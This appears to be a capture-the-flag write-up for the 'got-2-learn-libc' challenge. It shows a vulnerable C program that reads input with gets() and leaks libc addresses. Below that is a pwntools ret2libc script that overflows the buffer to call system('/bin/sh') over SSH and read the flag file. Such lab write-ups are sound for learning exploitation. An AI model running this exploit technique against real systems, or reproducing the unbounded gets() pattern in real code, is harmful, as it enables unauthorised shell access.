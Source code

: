 got-2-learn-libc - Points: 250
===========

## Description

>This program gives you the address of some system calls. Can you get a shell?

## Hint:

> * try returning to systems calls to leak information
> * don't forget you can always return back to main()


## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```

## Useful Information

> * We have the System and "/bin/sh" address:

> * We cannot write hex as input in terminal (need python script)  :exclamation:

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

**Basic Ret2Lib:**

SYS_ADR=PUTS_ADR-0x24800 (Can be found under GDB or Radare2)

BUFFER+SYS_ADR+RET_ADR+BIN_SH_ADR

```python
#!/usr/bin/python2.7
from pwn import *

#GET INFO

#To Complete
user=""
password=""
host=""

path_exec="/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33"
prog_name="vuln"

#MAKE PAYLOAD
sh =  ssh(host=host,user=user,password=password).process(path_exec+"/"+prog_name)
system_off = 0x24800
adr=sh.recv(4096).decode("utf-8")
print(adr)
adr_puts=int(raw_input("puts: 0x"),16)
adr_useful_string=int(raw_input("useful_string: 0x"),16)
adr_system=adr_puts-system_off

#SEND PAYLOAD AND GOT SHELL
sh.sendline('A'*160+str(p32(adr_system))+'BBBB'+str(p32(adr_useful_string)))
sh.sendline('cd '+path_exec)
sh.sendline('cat flag.txt ')
sh.interactive()
sh.close()

```


